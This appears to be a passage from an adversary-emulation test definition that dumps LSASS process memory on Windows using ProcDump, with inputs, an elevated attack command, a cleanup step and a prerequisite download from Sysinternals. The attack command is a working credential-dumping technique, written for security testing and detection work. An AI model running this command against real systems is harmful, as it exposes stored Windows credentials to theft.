 Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the  get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows


**auto_generated_guid:** 7cede33f-0acd-44ef-9774-15511300b24b





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp|
| procdump_exe | Path of Procdump executable | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -mm lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```

